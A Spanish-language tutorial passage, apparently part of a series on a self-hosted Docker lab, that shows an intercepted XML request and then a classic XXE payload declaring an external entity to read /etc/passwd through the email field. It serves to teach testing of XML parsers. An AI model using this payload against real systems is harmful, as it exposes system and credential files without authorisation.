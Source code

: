 Volveremos a usar nuestro laboratorio que montamos en docker, una vez estemos, recordaremos que al interceptar una petición veremos algo así:

![xml](/assets/images/LabsXXE/prueba/xml.png)

```xml
<?xml version="1.0" encoding="UTF-8"?>
	<root>
		<name>Dansh</name>
		<tel>123123</tel>
		<email>dansh@test.com</email>
		<password>qweqwdawe12312</password>
	</root>
```

Como recordamos, podemos ver la petición interceptada de nuestro laboratorio local, y sabemos que es vulnerable, supongamos que queremos hacer la típica manera de inyectar en nuestro DTD una entidad y luego mostrar algo para ver si esto es vulnerable, recuerda que esto se hacía así:

```xml
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
	<root>
		<name>Dansh</name>
		<tel>123123</tel>
		<email>&xxe;</email>
		<password>qweqwdawe12312</password>
	</root>
```
